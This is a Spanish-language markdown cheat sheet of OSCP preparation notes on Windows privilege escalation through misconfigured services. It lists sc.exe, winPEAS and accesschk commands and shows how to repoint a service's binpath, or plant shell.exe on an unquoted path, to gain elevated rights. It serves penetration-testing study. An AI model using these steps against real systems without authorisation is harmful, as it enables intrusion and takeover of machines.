 # Windows Priv Esc
- Notas realizadas para la preparación de OSCP


## Services Exploits
- Son serivicios que corren en segundo plano si el servicios es corrido por el admin o system user y estan mal configurados pueden ser usados para escalar privilegios

```
Query la configuración de un servicio
> sc.exe qc <nombre>

Query la configuración del estado de un servicio
> sc.exe query <nombre>

Modificar la configuración de un servicio

> sc.exe config <nombre> <opción>= <valor>

Empezar o terminar un servicio

> net start/stop <nombre>

```

### Insecure Service Properties
> Los servicios tiene que tener siempre permisos de (SERVICE_QUERY_CONFIG, SERVICE_STOP, SERVICE_START, SERVICE_ALL_ACCESS y SERVICE_CHANGE_CONFIG)
> **Es importante que tengamos siempre permisos de reniciar el servicio para poder escalar los previlegios**
```
> winPEASS quiet servicesinfo

> accesschk.exe /accepteula -uwcqv user daclsvc

> sc qc daclsvc 

> sc query service

> sc config daclsvc binpath= "RUTA DONDE TENGAMOS UNA SHELL"

```
### Unquoted Service Path
- Esta missconfiguration ocurre cuando la ruta de un binario o app no tiene "" entonces se puede aprovechar para poder escalar los privilegios, ya que es como los PATH de Linux, Windows va buscando de archivo en archivo si el .exe esta en ella por lo que nosotro debemos mirar toda las rutas del archivo si tenemos permisos de escritura así poder colocar una shell con el nombre del .exe que anda buscando Windows

```
> winPEASS quiet servicesinfo 

> accesschk.exe /accepteula -ucqv user <nombre>

> accesschk.exe /accepteula -uwdq "C:\" para ir comprobando sucesivamente la rura de una en una 

> copy shell.exe C:\PROGRAM DATA\app.exe

> net start <nombre>



```